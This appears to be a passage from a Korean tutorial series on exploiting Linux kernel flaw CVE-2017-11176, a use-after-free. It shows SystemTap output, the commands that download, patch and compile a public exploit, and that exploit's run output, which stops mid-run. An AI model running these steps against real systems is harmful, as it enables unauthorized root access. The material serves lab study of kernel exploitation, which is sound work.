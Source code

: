 ```
Pass 1: parsed user script and 106 library script(s) using 87832virt/32844res/5328shr/28100data kb, in 100usr/10sys/118real ms.
Pass 2: analyzed script: 1 probe(s), 1 function(s), 3 embed(s), 0 global(s) using 202656virt/149172res/6864shr/142924data kb, in 1180usr/730sys/3789real ms.
Pass 3: translated to C into "/tmp/stapWdpIWC/stap_1390f4a5f16155a0227289d1fa3d97a4_1464_src.c" using 202656virt/149364res/7056shr/142924data kb, in 0usr/20sys/23real ms.
Pass 4: compiled C into "stap_1390f4a5f16155a0227289d1fa3d97a4_1464.ko" in 6310usr/890sys/13392real ms.
Pass 5: starting run.
read performed                    // <---- 이 부분
Pass 5: run completed in 10usr/20sys/309real ms.
```

## 검토
앞서 진행한 과정을 모두 마쳤다면 공격을 수행하면 성공적으로 진행되어야 한다. 다음 과정을 통해 공격을 진행하여 환경이 잘 설정되었는지 확인한다.

본 시스템에서 exploit 코드를 컴파일하고 실행하기 때문에 다음과 같은 패키지를 설치해야한다.
```
# apt install binutils gcc
```
설치가 되었다면 사용자로 권한을 변경한 후 exploit 코드를 다운받는다.
``` bash
$ wget https://raw.githubusercontent.com/lexfo/cve-2017-11176/master/cve-2017-11176.c
```
코드를 컴파일하기 전에 한가지 수정해야하는 부분이 있다. `Use-After-Free` 공격을 진행할 대상 object가 `kmalloc-1024 캐시`가 아닌 `kmalloc-2048 캐시`에 있기 대문이다. 다운받은 코드의 49번째 줄을 다음과 같이 수정해야한다.
``` c++
#define KMALLOC_TARGET 2048 // instead of 1024
```
위 수정사항은 non-targetless exploit(?) 에서 발생하는 문제로, 시리즈의 후반부에 본 수정사항에 대해 이해하게 될 것이다.

이제 공격 코드가 준비되었으니 다음과 같이 컴파일 후 실행하여 공격을 진행할 수 있다.
```
$ gcc -fpic -O0 -std=c99 -Wall -pthread cve-2017-11176.c -o exploit
$ ./exploit
[ ] -={ CVE-2017-11176 Exploit }=-
[+] successfully migrated to CPU#0
[+] userland structures allocated:
[+] g_uland_wq_elt = 0x120001000
[+] g_fake_stack   = 0x20001000
[+] ROP-chain ready
[ ] optmem_max = 20480
[+] can use the 'ancillary data buffer' reallocation gadget!
[+] g_uland_wq_elt.func = 0xffffffff8107b6b8
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 200 reallocation threads ready!
[+] reallocation ready!
[+] 300 candidates created
[+] parsing '/proc/net/netlink' complete
[+] adjacent candidates found!
[+] netlink candidates ready:
[+] target.pid = -4590
[+] guard.pid  = -4614
[ ] preparing blocking netlink socket
[+] receive buffer reduced
[ ] flooding socket
[+] flood completed
[+] blocking socket ready
[+] netlink fd duplicated (unblock_fd=403, sock_fd2=404)
[ ] creating unblock thread...
[+] unblocking thread has been created!
[ ] get ready to block
[ ][unblock] closing 576 fd
[ ][unblock] unblocking now
```